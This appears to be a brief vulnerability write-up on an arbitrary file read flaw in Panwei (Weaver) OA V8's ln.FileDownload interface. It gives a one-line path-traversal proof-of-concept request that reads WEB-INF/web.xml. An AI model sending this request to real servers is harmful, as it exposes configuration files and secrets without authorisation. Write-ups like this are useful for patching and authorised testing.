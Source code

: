 # Panwei OA E-Weaver ln.FileDownload Arbitrary file reading vulnerability

## Vulnerability Description

The Panwei OA ln.FileDownload interface has a vulnerability to read any file on the server. The attacker can obtain any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA V8</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628479897544-b1d9da8a-4336-4371-b54f-22285b235ee9.png)

Verify POC

```php
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628479992921-2645d12d-2180-4e6f-bd87-8d1e2ff2cbb7.png)


